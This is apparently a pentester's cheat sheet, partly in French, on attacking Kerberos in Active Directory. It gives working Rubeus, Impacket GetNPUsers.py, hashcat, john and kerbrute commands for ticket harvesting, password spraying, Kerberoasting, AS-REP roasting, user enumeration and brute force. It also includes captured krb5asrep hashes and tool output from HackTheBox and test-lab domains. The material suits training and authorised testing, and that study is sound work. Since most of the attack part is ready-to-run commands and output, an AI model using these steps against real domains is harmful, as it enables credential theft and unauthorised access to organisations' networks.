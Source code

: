 # Kerberos

## Ticket Discovery

`Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds

`Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user

## Relay

Simialire au NTLM relay :

[krbrelayx](https://github.com/dirkjanm/krbrelayx)

## kerberoast et ASREProast (attaques Kerberos)

### Tools

* Impacket (linux)

* Rubeus (windows)

* Pour Parser les fichiers `Pcap` : [krb5 Roast Parser](https://github.com/jalvarezz13/Krb5RoastParser)

### Kerberoast

Kerberoast est similaire à l'AS_REP, il consiste à exploiter les tickets Kerberos des comptes de services accessible à partir d'un compte utilisateur

```sh
/usr/share/doc/python3-impacket/examples/GetNPUsers.py -request HTB.local/svc-alfresco:s3rvice -dc-ip 10.10.10.161
```

```txt
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2019-10-16 16:33:13.197703  2019-10-16 16:31:50.994383  0x410200 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:b56acf6c68e5a4cecbee05233e672ad1$c883d417090944cd8261b42e3c69e1818ea72d2fbfd6195a2d3e22aaaa6d69dca0e16d5899bfc66ac868a2b3d2bb69d9f500b711ce74ccf671eb688fb8da20fec9a9183cd776ead51cddfb7b30cd713a498144f86c8072db7799d907f35008aeb007bce2a0e299354860f9e0ef18c8d3e5b31ff1668b8cb55f8614fa8a35ad56faeac5f1503cb079e3db6e8337aaa401fddb6361c156e8d34bb828eb4ebedb52878b94dceedb74a4fdd3ecd313d6868430bab82ad75124a9fd022c7ecc123ca33ef4a58f647c01d7f48aef89b8aaa33d6f29d9d151a386a3a9f3b0f0829a657954fdce800cb1
```

```sh
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

### AS_REP

Similaire à Kerberoast, mais cible les comptes qui n’ont pas la pré-authentification Kerberos activée. Il n'y a donc pas besoin d'avoir de compte utilisateur.

* check ASREPRoast for a list of users (no credentials required)

```sh
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

exemple:

```sh
/usr/share/doc/python3-impacket/examples/GetNPUsers.py HTB.local/ -usersfile ./list.txt -dc-ip 10.10.10.161
```

```txt
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$svc-alfresco@HTB.LOCAL:0f8b748c0c7d0a6ff02fa17a749ba128$ccacb6c97be0a844b6890b88bc97cd27b6798396bf2c3e64c773f25f257c000c6f2cc4301b2d97c24a4a752bbbbe1754a4238585dcac082206e021439994f2d7e46dfb24a7189417de710ad4f495aa1b19ee9e443d58aa275f95e3e9df419551fa4ba2b77dd260edae5112d49a4e6bb5f99597adc891d12ff54c1be1cef600eaee164a2a674093fc0bd02540b40f96d44a6e44f4cf4d66c9c8a3cd883994e599c55aaa91264f3acd2fd257943aaacf2462cc68d274940cc7530829b9b23c6e144a5915514d6e55a02752199aa9df813f1104798188d8788122acf982b85a4c6995a3b272956b
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

### Cracking with dictionary of passwords

```sh
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

### exemple d'attaque ASREProast après lancement du script BadBloud sur un AD de test

```sh
GetNPUsers.py VULN.LAN/SABRINA_SCHMIDT -request -format john -outputfile hashes.asreproast -dc-ip 192.168.206.135 -no-pass
```

```txt
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for SABRINA_SCHMIDT
$krb5asrep$SABRINA_SCHMIDT@VULN.LAN:ff86ad3cbde239bd2728b00c0c7c5db4$14da2a1cfe4cf47a58c36e655b84d593e29cc7f8d2add72dc473a046b52a0cb128c448a50768be2cbef8c155f1fc79e5104592849fb21a1ecbf1d9448c25c31ab9b22894306afd2baee25c3263421667d77e0d531329e32ef3e7945ba220863c706d1f1dc087a3024f9c8581461a3da5b1b4c331efbe12c6c15fab4d3ff2053b4a3e74316517a08472c7f07891759a191735ebe6bbcb11d2b19a7bfb0b0854e9735bed0b6a6c43cfcc33e514f390b51dfd0c7b23adf03edbc9cb8e93e0ce5f347ba7fc3c304fb401327b7319dbe77773b633b4180adc8ac8edcf9c610cb9931fad2d1d98
```

```sh
wget https://cdn.hashmob.net/wordlists/rockyou.txt
john --wordlist=rockyou.txt hash.txt --rules=jumbo
```

## bruteforce kerberos

[kerbrute](https://github.com/ropnop/kerbrute/releases)

valider l'existance des users (liste user dans le repertoire courant) :

```sh
 ./kerbrute_linux_amd64 userenum -d HTB.local --dc 10.10.10.161 ./user 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.2 (fd5f345) - 10/15/19 - Ronnie Flathers @ropnop

2019/10/15 17:31:39 >  Using KDC(s):
2019/10/15 17:31:39 >  10.10.10.161:88

2019/10/15 17:31:39 >  [+] VALID USERNAME: Administrator@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME: andy@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME: lucinda@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME: mark@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME: santi@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME: sebastien@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME: svc-alfresco@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME: EXCH01$@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME: HealthMailbox0659cc1@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME: HealthMailbox6ded678@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME: HealthMailbox7108a4e@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME: HealthMailbox83d6781@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME: HealthMailbox968e74d@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME: HealthMailboxb01ac64@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME: HealthMailboxc0a90c9@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME: HealthMailboxc3d7722@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME: HealthMailboxfc9daad@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME: HealthMailboxfd87238@HTB.local
2019/10/15 17:31:40 >  Done! Tested 32 usernames (18 valid) in 0.461 seconds
```

dictionnaire de password pour 1 user:

```sh
./kerbrute_linux_amd64 bruteuser -d HTB.local --dc 10.10.10.161 ./pass EXCH01$
```

dictionaire "user:password" :

```sh
./kerbrute_linux_amd64 bruteforce -d HTB.local --dc 10.10.10.161 ./dictionnaire
```
